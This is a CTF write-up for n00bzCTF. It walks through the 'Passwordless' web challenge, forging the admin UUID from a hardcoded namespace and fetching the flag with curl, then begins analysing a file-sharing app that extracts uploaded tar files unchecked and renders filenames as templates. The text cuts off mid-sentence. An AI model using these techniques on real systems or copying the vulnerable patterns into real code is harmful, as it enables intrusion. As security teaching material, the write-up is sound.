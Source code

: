 * * *

### CTF: **n00bzCTF**

* * *

### Challeges

- Web:
  - Passwordless
  - File Sharing Portal

- Crypto:
  - Vinegar

- Rev:
  - Vacation

### Web:

- Passwordless

   ![image](https://github.com/user-attachments/assets/83262de2-1574-4005-b0a7-02f9b0e05295)

- Explaining the source code:

        #!/usr/bin/env python3
      from flask import Flask, request, redirect, render_template, render_template_string
      import subprocess
      import urllib
      import uuid
      global leet
      
      app = Flask(__name__)
      flag = open('/flag.txt').read()
      leet=uuid.UUID('13371337-1337-1337-1337-133713371337')
      
      @app.route('/',methods=['GET','POST'])
      def main():
          global username
          if request.method == 'GET':
              return render_template('index.html')
          elif request.method == 'POST':
              username = request.values['username']
              if username == 'admin123':
                  return 'Stop trying to act like you are the admin!'
              uid = uuid.uuid5(leet,username) # super secure!
              return redirect(f'/{uid}')
      
      @app.route('/<uid>')
      def user_page(uid):
          if uid != str(uuid.uuid5(leet,'admin123')):
              return f'Welcome! No flag for you :('
          else:
              return flag
      
      if __name__ == '__main__':
          app.run(host='0.0.0.0', port=1337)

- The `/<uid>` route reveals the flag, one of the requirement for creating the flag's uid is the leet uid which is hardocded  and the majin vulnerability.If the uid is added to the route, it reveals the flag.

      #Leet uid
      leet=uuid.UUID('13371337-1337-1337-1337-133713371337')
      if uid != str(uuid.uuid5(leet,'admin123')):
                return f'Welcome! No flag for you :('
            else:
                return flag

- Creating the uid with python `uuid` module

        ❯ python3
      Python 3.11.7 (main, Dec  8 2023, 14:22:46) [GCC 13.2.0] on linux
      Type "help", "copyright", "credits" or "license" for more information.
      >>> import uuid
      >>> leet=uuid.UUID('13371337-1337-1337-1337-133713371337')
      >>> str(uuid.uuid5(leet,'admin123'))
      '3c68e6cc-15a7-59d4-823c-e7563bbb326c'
      >>> 

- Grabbing the flag with curl

         ❯ curl http://24.199.110.35:40150/3c68e6cc-15a7-59d4-823c-e7563bbb326c
      n00bz{1337-13371337-1337-133713371337-1337}


### File Sharing Portal

 ![image](https://github.com/user-attachments/assets/620d23c3-b40a-4a43-a1f0-7d7bd4b8b1e1)

### Source Code Analysis/

- The index page `/` accepts upload of only tarfiles, removes the name  and replace it with a sha256 generated hash of a random value,the server uses the `tarfile` module to extract the file,places it in a directory named after the name hash and creates an hyperlink to access the extracted files.

      elif request.method == 'POST':
            file = request.files['file']
            if file.filename[-4:] != '.tar':
                return render_template_string("<p> We only support tar files as of right now!</p>")
            name = sha256(os.urandom(16)).digest().hex()
            os.makedirs(f"./uploads/{name}", exist_ok=True)
            file.save(f"./uploads/{name}/{name}.tar")
            try:
                tar_file = tarfile.TarFile(f'./uploads/{name}/{name}.tar')
                tar_file.extractall(path=f'./uploads/{name}/')
                return render_template_string(f"<p>Tar file extracted! View <a href='/view/{name}'>here</a>")

- The `/view/<name` checks if all the characters are within the range `a-f0-9` and it appears otherwise, it triggers an error.Then, it uses `os.listdir()` to list the directory of the extracted tar file which is stored in a `list`.Then, it uses this `f'<a href="/read/{name}/{i}">{i}</a>'` line to create an hyperlink to each extracted files. The server uses the function `render_template_string()` to render the html code.Although, the du


  
 
